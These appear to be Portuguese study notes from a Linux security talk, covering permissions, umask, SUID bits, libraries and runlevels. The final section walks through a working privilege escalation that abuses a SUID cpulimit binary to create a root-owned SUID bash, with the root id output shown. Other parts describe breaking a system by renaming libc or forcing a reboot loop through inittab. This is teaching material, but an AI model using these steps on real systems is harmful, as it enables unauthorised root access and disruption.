





# Notes

> "Usem linux… porque no linux não tem vírus?"

Notas baseadas na live "Segurança em Linux — Christiano Linuxman | ROADSEC@HOME#37" da Roadsec, no YouTube.

## Identificação de usuários

| usuár.    | núme.          |
| --------- | -------------- |
| **root**  | _0_            |
| **syst.** | _1 a 999_      |
| **comum** | _1000 a 65535_ |

## Permissões

| ação      | núme. |
| --------- | ----- |
| read      | 4     |
| write     | 2     |
| execute   | 1     |
| **total** | **7** |

### Manipulação de arquivos

Tudo no linux é **arquivo** ou **pasta**. A ordem de permissão de manipular esses arquivos é:

| **dono**     | .   | **grupo**    | .   | **outras**   |
| ------------ | --- | ------------ | --- | ------------ |
| **7**(_rwx_) |     | **7**(_rwx_) |     | **7**(_rwx_) |

A hierarquia de permissões se da por:

- Pasta
  - Arquivo
  - Arquivo

### Umask

`umask` - **user mask** - _0 022_

A `umask` influencia na permissão de criação de diretórios e arquivos. A `umask` é um padrão a nível de _kernel_.

Toda vez que criarmos uma pasta/arquivo, será subtraído a nossa `umask` (022) da permissão máxima (777), e o resultado será a permissão desta pasta/arquivo.

`mkdir mateus_pasta`

$$ 777 – 022 = 755 $$

**7**_rwx_ **5**_r-x_ **5**_r-x_



No caso do arquivo, será subtraído mais 1 bit de cada permissão (111).

`touch arquivo`

$$755 - 111 = 644$$

**6**_rw-_ **4**_r--_ **4**_r--_


> O `d` junto com as perimções indica que o arquivo é um diretório.

#### Permissões especiais

Existem também as permissões especiais de usuário, representado pelo primeiro número da `umask` _**0**022_.

| permission | n.º | power                                               |
| ---------- | --- | --------------------------------------------------- |
| SUID BIT   | 4   | rodar binários com o poder de root                  |
| SGID BIT   | 2   | PDC                                                 |
| STICK BIT  | 1   | define que só quem pode deletar um arquivo é o dono |

Imagine o cenário que precisamos que alguém execute o comando `shutdown`, porem não queremos passar a senha de _root_. Podemos dar a permissão _SUID BIT_ para o binário `shutdown`:

```
$ chmod 4755 /sbin/shutdown
```

Assim, qualquer usuário pode executar o comando `shutdown` com poder de _root_ sem precisar ser _root_.

## O mito

1. (**P.**) _Arquivos criados pelo usuário têm a permissão 644._
2. (**P.**) _Um vírus é um binário com poder de execução._
3. (**1**) _Um usuário não pode criar um binário naturalmente._
4. (**2**, **3**) ∴ _Sem binários, sem vírus._

## Manipulando arquivos no lugar certo

### Libs

Para cada comando no linux, precisamos de bibliotecas para funcionarem (equivalentes a DLLs do Windows). Então como sei as _libs_ necessárias para rodar um determinado comando? É só usar o comando `ldd`.

> Ambiente Ubuntu 20.04 no [KataCoda](https://www.katacoda.com/)

```console
$ which ls
/usr/bin/ls

$ ldd /usr/bin/ls
linux-vdso.so.1 (0x00007ffe4b5fc000)
libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f1e050ec000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f1e04efa000)
libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f1e04e6a000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f1e04e64000)
/lib64/ld-linux-x86-64.so.2 (0x00007f1e05147000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f1e04e41000)
```

Agora executando o comando `ldd` nos binários `cat` e `wget`:

```console
$ ldd /bin/cat
linux-vdso.so.1 (0x00007ffeddfd2000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9923dc0000)
/lib64/ld-linux-x86-64.so.2 (0x00007f9923fc9000)

$ ldd /bin/wget
linux-vdso.so.1 (0x00007ffcbd989000)
libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007fbdc6c35000)
libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007fbdc6c2c000)
libidn2.so.0 => /lib/x86_64-linux-gnu/libidn2.so.0 (0x00007fbdc6c0b000)
libssl.so.1.1 => /lib/x86_64-linux-gnu/libssl.so.1.1 (0x00007fbdc6b78000)
libcrypto.so.1.1 => /lib/x86_64-linux-gnu/libcrypto.so.1.1 (0x00007fbdc68a2000)
libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fbdc6886000)
libpsl.so.5 => /lib/x86_64-linux-gnu/libpsl.so.5 (0x00007fbdc6871000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fbdc667f000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fbdc665c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fbdc6d5e000)
libunistring.so.2 => /lib/x86_64-linux-gnu/libunistring.so.2 (0x00007fbdc64da000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fbdc64d4000)
```

Há uma semelhança notável entre os 3 binários, a biblioteca `libc.so.6`.


A maioria dos comandos linux usam essa biblioteca para funcionarem. Mas se mudarmos o nome desse arquivo e tentarmos executar o `ls`?


O sistema sentou. Bem, para resolver isso é só dar o `mv` de volta…


### Inicialização do Linux

No linux temos 6 tipos de _runlevel_, são eles:

| n.º | command                            |
| --- | ---------------------------------- |
| 0   | shutdown                           |
| 1   | modo de segurança                  |
| 2   | multi-usuário/sem gráfico (debian) |
| 3   | multi-usuário                      |
| 4   | personalização                     |
| 5   | multi-usuário/gráfico              |
| 6   | reboot                             |

Então se eu souber qual é o primeiro processo, que é o `init` e chamar o _runlevel_ 0 a máquina irá desligar.

```console
$ init 0
```

Estamos no _level_ 5, podemos conferir isso rodando o comando `runlevel`:



O N significa que não ouve nenhuma alteração de um _runlevel_ dês da última inicialização. Podemos alterar esses _runlevel_, e eles estão associados a nossas pastas, se irmos ate a pasta `/etc` teremos uma pasta para cada _runlevel_:


Na pasta `rc5.d`, por exemplo, temos alguns processos que não irão subir, iniciador pela letra K (_kill_), e alguns que irão subir, iniciados pela letra S (_start_), neste determinado _runlevel_ (5).



No arquivo `/etc/inittab`, na segunda linha temos:

```
id:5:initdefault
```

Oque aconteceria se mudarmos esse número de 5 para 6, e desligarmos, logo após, alguém ligar o PC para navegar na internet? A sequência é:

_`id:5:initdefault`_

- Botão Power
  - BIOS/MBR
    - gerenciador de boots (grub2)
      - kernel
        - init
          - DM
            - DE (onde estamos)

_`id:6:initdefault`_

- Botão Power
  - BIOS/MBR
    - gerenciador de boots (grub2)
      - kernel
        - init = 6 (reboot)

Caímos em um loop.

## Privilege Escalation

Vamos tentar fazer um ataque de _privilege escalation_ em um Linux, usando as permissões como área de exploração.

Primeiro vamos pesquisar na raiz do sistema, todo arquivo que tenha a permissão 4000, com o comando `find / -perm -4000 2>/dev/null`:



Obteremos vários resultados úteis, mas o que queremos é o _cpulimit_:



O _cpulimit_ tem a permissão _SUID BIT_, ou seja, quando executa-lo ele irá trabalhar como root. Sendo assim, podemos criar uma pasta na raiz executando o comando `cpulimit -l 100 -r mkdir /pasta`, mesmo como um usuário comum:


Bem, se podemos executar um binário como root, e se usarmos isso para dar permissão _SUID BIT_ também no binário `bash`?


1. Dou permissão SUID BIT para o binário bash
```console
$ cpulimit -l 100 -f chmod 4755 /usr/bin/bash
```
<br/>
2. Movo o binário para minha pasta
```console
$ cpulimit -l 100 -f cp /usr/bin/bash /mr_robot/
```
<br/>
3. Certifico que ele tem as permissões necessárias
```console
$ cpulimit -l 100 -f chmod +s /mr_robot/bash
```
<br/>
4. Por fim executo o binário
```console
$ ./bash -p
```
<br/>
```console title="~# id"
uid=1001(mateus) gid=1001(mateus) euid=0(root) groups=1001(mateus)
```

---

# referências

Segurança em Linux - Christiano Linuxman | ROADSEC@HOME#37: [_https://www.youtube.com/watch?v=AzB5BNDTXOk_](https://www.youtube.com/watch?v=AzB5BNDTXOk)
